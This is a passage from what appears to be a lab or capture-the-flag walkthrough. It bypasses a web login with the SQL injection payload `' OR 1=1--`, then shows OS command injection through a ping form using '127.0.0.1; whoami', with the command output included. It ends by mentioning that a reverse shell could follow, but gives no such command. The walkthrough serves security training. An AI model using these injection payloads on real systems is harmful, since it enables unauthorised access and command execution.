 The first thing that could come to our mind after looking at this login page would be SQLi. So, we can try to pass `' OR 1=1--` as the username as well as password. As this SQLi works, we are redirected to another page from where we can ping machines on the network.

![ping](./.images/ping.png)

We can first simply try the loopback IP i.e. "127.0.0.1" to which we can get a response like

![ping_loopback](./.images/ping_loopback.png)

Now that we are sure that the `ping` command is being executed in the background, we can check if OS command Injection can be performed from here.

To test OS Command Injection, we can send simple input like "127.0.0.1; whoami" and see if the result gets reflected in the output

```
127.0.0.1; whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.547 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.79 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.141 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 0.141/0.827/1.794/0.703 ms, pipe 2
apache
```

On the last line, we can see that `apache` is returned. So, we can be sure that OS Command Injection can be performed over here. Through the same method we can gain a reverse shell as well by sending a command to create a reverse shell
